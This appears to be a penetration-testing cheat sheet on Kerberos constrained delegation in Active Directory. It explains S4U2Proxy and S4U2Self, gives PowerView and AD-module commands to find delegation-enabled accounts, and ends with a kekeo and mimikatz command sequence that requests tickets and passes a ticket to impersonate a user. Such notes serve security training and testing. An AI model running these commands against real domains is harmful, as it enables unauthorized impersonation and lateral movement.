 #kekeo #mimikatz #powershell 
- [[#Unconstrained Delegation]] is dangerous, as it allows services to impersonate user and access any service.
- S4U restricts this and only allows delegation to certain services.
	- Service for User to Proxy (S4U2Proxy)
	- Service for User to Self (S4U2Self)
- No TGT is required in this extention.
### S4U2Proxy
This extension allows a service to request another service on behalf of the user by using `ST` instead of `TGT`.
The service can only ask for impersonation `ST` for certain services defined in one of the following ways:
- **Classic Constrained Delegation**: `msDS-AllowedToDelegateTo` attribute of the service account. It contains [[Active Directory/AD Concepts/Services#SPN|SPN]] of the services for which the service account can ask ST for. To edit this parameter, `SeEnableDelegationPrivilege` priv is required.
- **Resource Based Constrained Delegation**: The service account is mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target service for which the service account will ask ST for.
### S4U2Self
- Kerberos delegation when the client does not support Kerberos protocol. (Protocol Transition)
- In this scenario, the service which has the "TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION" flag set, can request a TGS for the another service for the user.
# Enumeration
- Enumerating users and computers which contrained delegation enabled
- Powerview:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
- Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDeleagateTo
```
# Exploitation
- Getting a TGT for the account that can delegate
```powershell
kekeo tgt::ask /user:svcIIS /domain:mydomain.local /password:Qwer1234.
# this will save the TGT file to the disk
# use this TGT to request TGS for the delegated service
kekeo tgs::s4u /tgt:<tgt_file> /user:<user_to_inpersonate> /service:<service_allowed_to_delegate_to>
# this will save the TGS to the disk
# we can load this ticket it memory
mimikatz kerberos::ptt <ticket_file>
```
